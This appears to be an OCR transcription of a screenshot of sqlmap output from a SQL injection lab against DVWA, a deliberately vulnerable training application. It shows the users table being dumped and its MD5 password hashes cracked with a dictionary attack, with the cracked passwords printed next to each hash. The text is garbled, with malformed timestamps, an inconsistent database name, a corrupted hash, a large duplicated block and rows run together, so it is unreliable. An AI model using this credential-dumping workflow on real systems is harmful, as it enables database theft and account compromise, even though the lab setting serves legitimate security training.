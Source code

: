 ```ruby
    [15:32:191 INFO] the back-end DBMS is MySQL web server operating system: Linux Ubuntu 8.04 (Hardy Heron) web application technology: Apache 2.2.8, PHP 5.2.4 back-end DBMS: MySQL >= 4.1
    [15:32:20] [INFO] fetching columns for table 'users' in database 'dwa'
    [15:32:20] [INFO] fetching entries for table 'users' in database 'dvwa'
    [15:32:20] [INFO] recognized possible password hashes in column 'password' do you want to store hashes to a temporary file for eventual further processing with other tools /NIn do you want to crack them via a dictionary-based attack?
    [VIn/g]y
    [15:38:35] [INFO] using hash method 'md5_generic_passwd' what dictionary do you want to use?
    1 default dictionary file '/usr/share/sq|map/data/t×t/wordlist.tx_'(press Enter)
    2 custom dictionary file
    3 file with list of dictionary files
    >g
    [15:38:41] [INFO] using default dictionary
    do you want to use common password suffixes? (slow!) [y/N] n [15:38:46] [INFO] starting dictionary-based cracking (md5_generic_passwd)
    [15:38:46] [INFO] starting 8 processes
    [15:38:47] [INFO] cracked password 'abc123' for hash 'e99a18c428cb38d5f26085367892203'
    [15:38:48] [INFO] cracked password 'charley' for hash '8d3533d75ae2c3966d7e0d4fcc69216b'
    [15:38:49] [INFO] cracked password 'letmein' for hash 'Od107d09f5bbe40cade3de5c71e9e9b7'
    [15:38:50] [INFO] cracked password 'password' for hash '5f4dcc3b5aa765d61d8327deb882cf99'
    [15:38:50] [INFO] cracked password 'test123' for hash 'cc03e747a6afbbcbf8be7668acfebee5'
    Database: dvwa
    Table: users
    [5 entries]
    | user_id | user | avatar | password | last_name | first_name 11 l admin | http://192.168.1.22/dvwa/hackable/users/admin.jpg | cc03e747a6afbbcbf8be7668acfebee5 (test123) | admin | admin
    4 I gordonb | http://192.168.1.22/dvwa/hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 (abc123) | Brown | Gordon
    5 | 1337 http://192.168.1.22/dvwa/hackable/users/1337.jpg |

    1 default dictionary file '/usr/share/sq|map/data/t×t/wordlist.tx_'(press Enter)
    2 custom dictionary file
    3 file with list of dictionary files
    >g
    [15:38:41] [INFO] using default dictionary
    do you want to use common password suffixes? (slow!) [y/N] n [15:38:46] [INFO] starting dictionary-based cracking (md5_generic_passwd)
    [15:38:46] [INFO] starting 8 processes
    [15:38:47] [INFO] cracked password 'abc123' for hash 'e99a18c428cb38d5f26085367892203'
    [15:38:48] [INFO] cracked password 'charley' for hash '8d3533d75ae2c3966d7e0d4fcc69216b'
    [15:38:49] [INFO] cracked password 'letmein' for hash 'Od107d09f5bbe40cade3de5c71e9e9b7'
    [15:38:50] [INFO] cracked password 'password' for hash '5f4dcc3b5aa765d61d8327deb882cf99'
    [15:38:50] [INFO] cracked password 'test123' for hash 'cc03e747a6afbbcbf8be7668acfebee5'
    Database: dvwa
    Table: users
    [5 entries]
    | user_id | user | avatar | password | last_name | first_name 11 l admin | http://192.168.1.22/dvwa/hackable/users/admin.jpg | cc03e747a6afbbcbf8be7668acfebee5 (test123) | admin | admin4 I gordonb | http://192.168.1.22/dvwa/hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 (abc123) | Brown | Gordon 5 | 1337 http://192.168.1.22/dvwa/hackable/users/1337.jpg |8d3533d75ae2c3966d7e0d4fcc69216b (charley) | Me | Hack
    4 | pablo | http://192.168.1.22/dvwa/hackable/users/pablo.jpg | Od107d09f5bbe40cade3de5c71e9e9b7 (letmein) | Picasso | Pablo 15 | smithy | http://192.168.1.22/dvwa/hackable/users/smithy.jpg | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith | Bob [15:38:51] [INFO] table 'dvwa.users' dumped to CSV file '/root/.local/share/sqlmap/ output/192.168.1.22/dump/dvwa/users.csv'
    [15:38:51] [INFO] fetched data logged to text files under '/root/.local/share/sq|map/ output/192.168.1.22'
    [*] ending @ 15:38:51 /2023-04-16/
    *starting @ 15:38:55 /2023-04-16/
    [15:38:55] [INFO] resuming back-end DBMS 'mysql'
    [15:38:55] [INFO] testing connection to the target URL
```